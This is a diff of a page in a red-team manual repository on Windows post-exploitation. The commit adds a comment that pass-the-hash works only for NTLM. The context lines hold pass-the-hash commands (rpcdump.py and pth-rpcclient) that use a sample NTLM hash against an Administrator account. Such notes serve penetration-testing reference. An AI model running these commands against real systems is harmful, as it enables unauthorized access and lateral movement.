

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 3. Privesc & Post-Exploit/4a. Windows Specifics.md, the part around the change. GitHub-like rendering.

```diff
--- a/3. Privesc & Post-Exploit/4a. Windows Specifics.md
+++ b/3. Privesc & Post-Exploit/4a. Windows Specifics.md
@@ -16,6 +16,7 @@
 
     Connect via Pass the Hash:
         https://blog.ropnop.com/practical-usage-of-ntlm-hashes/
+        //Only works for NTLM (not NTLMv2/Net-NTLM)
         RPC:
             Show Endpoints:  python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
             Connect:  pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
```
